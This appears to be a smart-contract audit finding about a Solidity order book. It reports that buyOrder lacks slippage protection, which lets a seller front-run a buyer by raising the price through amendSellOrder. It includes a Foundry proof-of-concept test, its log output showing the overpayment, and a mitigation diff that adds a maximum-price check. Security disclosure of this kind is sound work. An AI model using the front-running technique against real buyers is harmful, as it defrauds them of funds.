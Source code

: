 to check:

1. price manipulation + no slippage protection for buyer, allowing sellers to increase the price right before a buyer attempts to purchase which the seller could front-run and amend the price to a much higher value. lack of slippage protection in buyOrder function means buyer could pay much more than expected
2. deadline extension exploit, dk if this is intended or not

# Lack of Slippage Protection in `buyOrder` Results in Sellers Being Able To Manipulate and Drastically Increase Prices Using `amendSellOrder` For Buyers

## Description

- In a normal scenario, sellers would use the `amendSellOrder` function with integrity and only when there is a genuine need to update the terms of the order. Buyers would also expect to pay the price listed in the current order.
- Due to lack of defence against Price Manipulation, sellers would be able to monitor the mempool for relevant transactions or use MEV bots to front run a `amendSellOrder` transaction to drastically increase the price of their order, causing the buyer to pay a lot more than he intended to. The lack of slippage protection in `buyOrder` results in buyers potentially paying a lot more than intended

```solidity
@>    function buyOrder(uint256 _orderId) public { // lack of slippage protection within the function
        Order storage order = orders[_orderId];

        // Validation checks
        if (order.seller == address(0)) revert OrderNotFound();
        if (!order.isActive) revert OrderNotActive();
        if (block.timestamp >= order.deadlineTimestamp) revert OrderExpired();

        order.isActive = false;
        uint256 protocolFee = (order.priceInUSDC * FEE) / PRECISION;
        uint256 sellerReceives = order.priceInUSDC - protocolFee;

        iUSDC.safeTransferFrom(msg.sender, address(this), protocolFee);
        iUSDC.safeTransferFrom(msg.sender, order.seller, sellerReceives);
        IERC20(order.tokenToSell).safeTransfer(msg.sender, order.amountToSell);

        totalFees += protocolFee;

        emit OrderFilled(_orderId, msg.sender, order.seller);
    }
```

## Risk

**Likelihood**: High

- Sellers can easily monitor the mempool or amke use of existing MEV infrastructure to monitor for purchases on their orders, and front run a transaction to increase the price

**Impact**: High

- Buyers would pay a lot more than intended, and can effectively be seen as a method to "rob" buyers.

## Proof of Concept

```solidity
    function testBasicPriceManipulationAttack() public {
        console2.log("=== Basic Price Manipulation Attack ===");

        // 1. Malicious seller creates attractive order
        vm.startPrank(alice);
        wbtc.approve(address(book), 2e8);
        uint256 aliceId = book.createSellOrder(address(wbtc), 2e8, 1e6, 2 days); // extremely cheap offer
        vm.stopPrank();

        // 2. Simulate mempool detection - seller sees buyer's transaction
        // In reality, this would be done by monitoring mempool
        console2.log("\n[ATTACK] Seller detects incoming buy transaction in mempool");

        // 3. Seller front-runs with price amendment
        vm.prank(alice);
        book.amendSellOrder(aliceId, 2e8, 200_000e6, 2 days);
        string memory aliceOrderDetails = book.getOrderDetailsString(aliceId);
        console2.log(aliceOrderDetails);

        // 4. Buyer's transaction executes at manipulated price
        uint256 buyerUSDCBefore = usdc.balanceOf(dan);
        uint256 buyerWBTCBefore = wbtc.balanceOf(dan);

        vm.startPrank(dan);
        usdc.approve(address(book), 200_000e6);
        book.buyOrder(aliceId);
        vm.stopPrank();

        uint256 buyerUSDCAfter = usdc.balanceOf(dan);
        uint256 buyerWBTCAfter = wbtc.balanceOf(dan);

        console2.log("\nBuyer transaction completed:");
        console2.log("- USDC spent:", buyerUSDCBefore - buyerUSDCAfter);
        console2.log("- WBTC received:", buyerWBTCAfter - buyerWBTCBefore);
        console2.log("- Expected to pay: 1000000");
        console2.log("- Actually paid:", buyerUSDCBefore - buyerUSDCAfter);
        console2.log("- Overpaid by:", (buyerUSDCBefore - buyerUSDCAfter) - 1e6);

        assertEq(buyerUSDCBefore - buyerUSDCAfter, 200_000e6);
        assertEq(buyerWBTCAfter - buyerWBTCBefore, 2e8);
    }
```

Logs output:
Buyer transaction completed:

- USDC spent: 200000000000
- WBTC received: 200000000
- Expected to pay: 1000000
- Actually paid: 200000000000
- Overpaid by: 199999000000

## Recommended Mitigation

Integrating slippage protection within the `buyOrder` function would prevent this attack from happening, assuming that buyers input the `_maxPriceAccepted` appropriately.

```diff
-function buyOrder(uint256 _orderId) public {
+function buyOrder(uint256 _orderId, uint256 _maxPriceAccepted) public {
        Order storage order = orders[_orderId];

        if (order.seller == address(0)) revert OrderNotFound();
        if (!order.isActive) revert OrderNotActive();
        if (block.timestamp >= order.deadlineTimestamp) revert OrderExpired();

        // SLIPPAGE PROTECTION: Check if current price exceeds buyer's maximum
+        if (order.priceInUSDC > _maxPriceAccepted) {
+            revert SlippageExceeded();
+        }

        order.isActive = false;
        uint256 protocolFee = (order.priceInUSDC * FEE) / PRECISION;
        uint256 sellerReceives = order.priceInUSDC - protocolFee;

        iUSDC.safeTransferFrom(msg.sender, address(this), protocolFee);
        iUSDC.safeTransferFrom(msg.sender, order.seller, sellerReceives);
        IERC20(order.tokenToSell).safeTransfer(msg.sender, order.amountToSell);

        totalFees += protocolFee;
        emit OrderFilled(_orderId, msg.sender, order.seller, order.priceInUSDC);
    }
```
